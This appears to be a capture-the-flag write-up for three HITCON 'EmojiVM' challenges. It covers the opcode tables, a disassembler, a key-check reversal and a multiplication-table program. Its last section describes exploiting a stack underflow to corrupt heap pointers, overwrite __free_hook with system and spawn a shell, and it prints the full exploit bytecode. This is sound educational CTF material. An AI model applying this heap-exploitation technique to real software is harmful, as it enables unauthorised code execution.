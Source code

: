 # EmojiVM/EmojiiVM/EmojiiiVM

All three challenges involve a custom emoji-based bytecode for a virtual machine.

## EmojiVM - reverse challenge - 77 solves (187 points)

In the first challenge, we need to reverse engineer a program written in EmojiVM. We're given the VM emulator and a program written in it. The VM simply translates each codepoint in the bytecode (UTF-8 encoded emoji) into a small number based on two different tables. Table 1, the opcode table, translates certain emoji into the numbers 1-23. Table 2, the data table, translates certain other emoji into the numbers 0-10, and is only used with a particular opcode. Reversing the VM, we worked out what each emoji opcode did, and gave them names:

```
🈳 nop
➕ add
➖ sub
❌ mul
❓ mod
❎ xor
👫 and
💀 lt
💯 eq
🚀 jmp
🈶 jnz
🈚 jz
⏬ push
🔝 pop
📤 gget
📥 gset
🆕 galloc
🆓 gfree
📄 gread
📝 gwrite
🔡 dumpstack
🔢 printint
🛑 halt
```

The "g" functions work with a set of ten "global" arrays of bytes which can be freely allocated, written and indexed. Otherwise, every operation works on the stack - there are only two registers, the stack pointer and instruction pointer. The "push" instruction is followed by one of the following 11 "data" emoji with the corresponding value, pushing that value onto the stack:

```
😀 0
😁 1
😂 2
🤣 3
😜 4
😄 5
😅 6
😆 7
😉 8
😊 9
😍 10
```

So, we wrote a simple disassembler ([`disas.py`](disas.py)) which produced [`disas.txt`](disas.txt). A bit of reverse engineering and comments produced [`disas.annotated.txt`](disas.annotated.txt). This program does some "license-key"-style validation of the input, then prints out a success message and decoded flag if the input passes validation. [`rev.py`](rev.py) implements the necessary logic to produce the unique valid key `plis-g1v3-me33-th3e-f14g`, which when punched into the program gives the flag:

`hitcon{R3vers3_Da_3moj1}`

## EmojiiVM - misc challenge - 66 solves (198 points)

All we have to do here is write a program, less than 2000 bytes, which outputs a 9x9 multiplication table. To achieve that, we wrote a macro assembler based on our `disas.py` output, which uses the C preprocessor and some simple label logic. With this assembler, it was just a matter of writing two nested loops. This is the assembly code:

```
#define SET(x) push x; push 0; gset
#define GET(x) push x; push 0; gget

push 2
galloc

push 1; SET(0)
outer:
  push 1; SET(1)
  inner:
    GET(0); printint
    push 32; push 42; push 32; dumpstack
    GET(1); printint
    push 32; push 61; push 32; dumpstack
    GET(0); GET(1); mul; printint
    push 10; dumpstack
  GET(1); push 1; add; SET(1)
  GET(1); push 10; eq; jz inner

GET(0); push 1; add; SET(0)
GET(0); push 10; eq; jz outer

halt
```

and the final EmojiVM program (585 bytes):

```
⏬😂🆕⏬😁⏬😀⏬😀📥⏬😁⏬😁⏬😀📥⏬😀⏬😀📤🔢⏬🤣⏬😍❌⏬😂➕⏬😜⏬😍❌⏬😂➕⏬🤣⏬😍❌⏬😂➕🔡⏬😁⏬😀📤🔢⏬🤣⏬😍❌⏬😂➕⏬😅⏬😍❌⏬😁➕⏬🤣⏬😍❌⏬😂➕🔡⏬😀⏬😀📤⏬😁⏬😀📤❌🔢⏬😍🔡⏬😁⏬😀📤⏬😁➕⏬😁⏬😀📥⏬😁⏬😀📤⏬😍💯⏬😀⏬😍❌⏬😁➕⏬😍❌⏬😆➕🈚⏬😀⏬😀📤⏬😁➕⏬😀⏬😀📥⏬😀⏬😀📤⏬😍💯⏬😀⏬😍❌⏬😀➕⏬😍❌⏬😍➕🈚🛑
```

When sent to the remote server, we get the nice flag:

`hitcon{M0mmy_I_n0w_kN0w_h0w_t0_d0_9x9_em0j1_Pr0gr4mM!ng}`

## EmojiiiVM - pwning challenge - 39 solves (236 points)

I spotted the bug while reversing the VM - almost none of the opcodes actually check to see if the stack is empty before popping it, so we can underflow the stack. Right under the stack is the array of 10 global array pointers, meaning that if we underflow to there we can start messing with those pointers (leaking them to get addresses and then modifying them to get read/what/where).

Our exploit is very simple. Each array pointer points to a header chunk allocated in the heap, which points to the actual data chunk also allocated in the heap. So, we allocate up to arrays 4, 5 and 6, then use an `add` to adjust array 6 so it points at the data area of array 5 (this way, editing array 5 modifies the header of 6). We then leak an array pointer with `printint`. Then, we enter a command loop which lets an external Python program drive reads or writes to array 5 and 6, leak libc, set `__free_hook` to point at system, and trigger `free("/bin/sh")` to get a shell.

[`exploit.s`](exploit.s) contains the exploit program, which assembles to the following EmojiVM code:

```
⏬😁⏬😍❌⏬😅➕🆕⏬😁⏬😍❌⏬😅➕🆕⏬😁⏬😍❌⏬😅➕🆕⏬😁⏬😍❌⏬😅➕🆕⏬😁⏬😍❌⏬😅➕🆕⏬😁⏬😍❌⏬😅➕🆕⏬😁⏬😍❌⏬😅➕🆕➕🔝🔝🔝🔝⏬🤣⏬😍❌⏬😂➕⏬😀➖➕🔝🔢🔝🔝🔝🔝⏬😀⏬😍🔡🔝⏬😄📄⏬😜📄⏬😀⏬😜📤⏬😀💯⏬😁⏬😍❌⏬😉➕⏬😍❌⏬😍➕🈶⏬😀⏬😜📤⏬😁💯⏬😁⏬😍❌⏬😍➕⏬😍❌⏬😄➕🈶⏬😀⏬😜📤⏬😂💯⏬😂⏬😍❌⏬😂➕⏬😍❌⏬🤣➕🈶⏬😀⏬😜📤⏬🤣💯⏬😂⏬😍❌⏬😜➕⏬😍❌⏬😁➕🈶⏬😁⏬😍❌⏬😉➕⏬😍❌⏬😍➕🚀⏬😅📝⏬😀⏬😍❌⏬😊➕⏬😍❌⏬😂➕🚀⏬😅📄⏬😀⏬😍❌⏬😊➕⏬😍❌⏬😂➕🚀⏬😅🆓🛑
```

[`exploit.py`](exploit.py) loads this program and then drives it to get a shell and the flag:

`hitcon{H0p3_y0u_Enj0y_pWn1ng_th1S_3m0j1_vM_^_^b}`
